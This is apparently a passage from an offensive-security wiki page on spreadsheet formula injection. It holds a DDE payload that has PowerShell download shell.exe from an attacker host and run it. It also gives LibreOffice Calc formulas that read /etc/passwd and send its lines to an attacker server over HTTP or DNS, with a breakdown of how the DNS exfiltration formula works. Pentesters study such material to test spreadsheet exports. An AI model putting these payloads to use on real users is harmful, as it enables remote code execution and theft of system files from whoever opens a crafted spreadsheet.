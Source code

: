 ![](<../.gitbook/assets/image (25) (2) (2) (2) (2) (2) (2) (2) (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (8).png>)

### More

```bash
=cmd|' /C powershell Invoke-WebRequest "http://www.attacker.com/shell.exe" -OutFile "$env:Temp\shell.exe"; Start-Process "$env:Temp\shell.exe"'!A1
```

### LFI

**LibreOffice Calc**

* This will read the 1st line from the local /etc/passwd file: `='file:///etc/passwd'#$passwd.A1`
* Ex-filtrate it: `=WEBSERVICE(CONCATENATE("http://:8080/",('file:///etc/passwd'#$passwd.A1)))`
* Ex-filtrate more than one line: `=WEBSERVICE(CONCATENATE("http://:8080/",('file:///etc/passwd'#$passwd.A1)&CHAR(36)&('file:///etc/passwd'#$passwd.A2)))`
* DNS Exfiltration: `=WEBSERVICE(CONCATENATE((SUBSTITUTE(MID((ENCODEURL('file:///etc/passwd'#$passwd.A19)),1,41),"%","-")),"."))`

**Analyzing the DNS ex-filtration payload:**

* ‘file:///etc/passwd’#$passwd.A19 – Will read the 19th line from the local /etc/passwd file
* ENCODEURL(‘file:///etc/passwd’#$passwd.A19) – URL encode the returned data
* MID((ENCODEURL(‘file:///etc/passwd’#$passwd.A19)),1,41) – Similar to substring, read data from 1st character to 41st – a very handy way to restrict the length of DNS hostnames (254 character limit on FQDN and 63 characters for a label, i.e. subdomain)
* SUBSTITUTE(MID((ENCODEURL(‘file:///etc/passwd’#$passwd.A19)),1,41),”%”,”-“) – replace all instances of % (the special character from URL encoding) with dash – this is ensure that only valid DNS characters are used
* CONCATENATE((SUBSTITUTE(MID((ENCODEURL(‘file:///etc/passwd’#$passwd.A19)),1,41),”%”,”-“)),”.\<FQDN>”) – Concatenate the output from the file (after the above processing has taken place) with the FQDN (for which we have access to the host that is authoritative for the domain)
* WEBSERVICE – Will make a request for this non-existent DNS name which we can then parse the logs (or run tcpdump etc.) on the DNS authoritative name server for which we have control
